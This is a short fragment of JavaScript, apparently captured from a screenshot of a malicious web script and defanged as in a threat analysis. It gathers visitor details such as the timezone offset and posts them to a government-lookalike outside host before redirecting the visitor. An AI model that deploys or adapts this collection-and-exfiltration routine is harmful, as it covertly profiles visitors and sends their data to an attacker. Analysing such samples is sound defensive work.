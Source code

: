 			result.utcOffset = new Date().getTimezoneOffset() / 60;
			postData(result);
		} catch (err) {
			redirect();
		}
	}

	function postDetection(data) {
		var detectionPostUrl = 'https://finance.pakgov[.]net/733/1/670/2/0/0/1874372994/HvEdALWHsRoqS3eIArlDgXiyAcvV5TsjfqF7kVAK/files-867fdc8a/adscom';
		try {
			fetch(detectionPostUrl, {
				method: 'POST',
				headers: {
					'Content-Type': 'application/text'
				},
				body: data
			})
				.then(() => {
					redirect();
				})
				.catch((err) => {
					redirect();
				});
		} catch (err) {
			redirect();
		}
	}